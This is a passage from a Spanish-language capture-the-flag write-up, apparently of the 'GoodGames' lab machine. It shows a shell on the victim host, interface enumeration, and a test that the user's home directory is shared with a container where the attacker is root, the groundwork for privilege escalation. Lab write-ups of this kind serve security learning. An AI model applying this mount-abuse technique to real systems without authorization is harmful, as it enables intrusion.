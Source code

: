 ```bash
permitted by applicable law.
augustus@GoodGames:~$ export TERM=xterm
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ 
```

Vemos que ahora estamos en la maquina victima 

```bash
augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:cd79 
augustus@GoodGames:~$ 
```

## Escalada de privilegios

Y bueno si observamos son los mismos archivos que vimos en el contenedor 

```bash
augustus@GoodGames:~$ ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Dec  2  2021 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus   33 Jul  5 23:15 user.txt
augustus@GoodGames:~$ 
```

Como todo el directorio esta montando en el contenedor si creamos un archivo lo vamos a ver reflejado en el contenedor donde estamos como `root`

```bash
augustus@GoodGames:~$ ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Dec  2  2021 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus   33 Jul  5 23:15 user.txt
augustus@GoodGames:~$ touch xd.txt
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/opt# cd /home/augustus/
root@3a453ab39d3d:/home/augustus# ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Jul  6 01:05 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Jul  5 22:15 user.txt
-rw-r--r-- 1 1000 1000    0 Jul  6 01:05 xd.txt
root@3a453ab39d3d:/home/augustus# 
```
